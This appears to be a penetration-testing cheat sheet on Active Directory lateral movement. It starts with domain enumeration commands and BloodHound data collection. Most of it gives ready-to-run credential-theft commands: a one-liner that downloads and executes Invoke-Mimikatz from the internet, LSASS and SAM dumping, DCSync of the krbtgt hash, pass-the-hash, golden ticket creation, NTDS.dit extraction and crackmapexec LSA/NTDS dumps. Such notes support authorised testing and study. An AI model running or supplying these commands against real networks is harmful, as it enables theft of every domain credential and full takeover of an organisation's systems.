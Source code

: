 # Lateral Movement  
## Contents 
- [Lateral Movement](#lateral-movement)
  * [Contents](#contents)
  * [What to Look For](#what-to-look-for)
  * [Quick Commands](#quick-commands)
  * [Post Exploitation Enumeration](#post-exploitation-enumeration)
    + [PowerView](#powerview)
  * [Bloodhound](#bloodhound)
  * [Mimikatz](#mimikatz)
  
## What to Look For 
Post Initial Exploitation  
Enumerate users and groups on the host.     
What privilege level does your user have?       
Is privilege escalation needed?    
Check user home folders (including command history, browser history, zipped archives)   

## Quick Commands  

    net user
    net user /domain
    net user [username] /domain
    
    net localgroup
    net group /domain
    net group /domain "Domain Admins"  
         
### PowerShell Active Directory Module (only on DC by default)
List all hosts on the domain      

    Get-ADComputer -Filter * -Properties ipv4Address, OperatingSystem, OperatingSystemServicePack | Format-List name, ipv4*, oper*      
    
    Get-ADUser
    Get-ADDomain
    Get-ADGroup
    Get-ADGroupMember -identity "Domain Admins" -Domain test.local -DomainController 10.10.10.10
    Find-DomainShare   
    
## Post Exploitation Enumeration      
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   

    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  
Extracts passwords, hashes, PIN codes and kerberos tickets from memory.   
[Mimikatz and Password Dumps Reference](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/)    
[Online Password Cracker - Crackstation](https://crackstation.net/)     
[Dumping Hashes with Mimikatz - Video](https://www.youtube.com/watch?v=AZirvtZNIEw)   
Loading Powershell Script 

    powershell.exe-exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"    
   
    privilege::debug   
    lsadump::sam   

Dumping credentials from LSASS  

    mimikatz # privilege::debug   
    mimikatz # sekurlsa::logonpasswords   
Dumping credentials from a minidump   

    mimikatz # sekurlsa::minidump lsass.dmp   
    mimikatz # sekurlsa::logonPasswords   
    
DCSync the krbtgt hash  

    mimikatz # lsadump::dcsync /domain:<domain> /user:krbtgt   
Pass the hash   
    
    mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<cmd>   
Golden ticket creation and pass the ticket   
    
    mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>   
    
## AD Password Files  
NTSDS.dit (db) and SYSTEM registry hive. Can use built in ntdsutil.exe to backup AD. Then use another tool to extract DC hashes, since NTDS.dit is encrypted and opened exclusively for use by OS (can't be copied).     
Back up AD files:    

    ntdsutil           
    activate instance ntds     
    ifm          #commands will generate backup of data in C:\ntds directory. Crack locally.    
    
Then locally extract NTDS.dit and SYSTEM registry data using Impacket script secretsdump.py  

    $ python secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL        

Or use Mimikatz to extract hashes from NTDS.dit    

mimikatz # lsadump::dcsync /domain:domain.local /all /csv          

## Crackmapexec     
Dump LSA secrets     

    crackmapexec smb 10.10.10.10 -u UserNAme -p 'PASSWORDH' --lsa   #dump lsa secrets - need admin on domain controller          
Dump NTDS.dit   

    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds     
    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds --users     
    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds uusers --enabled      
    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds vss     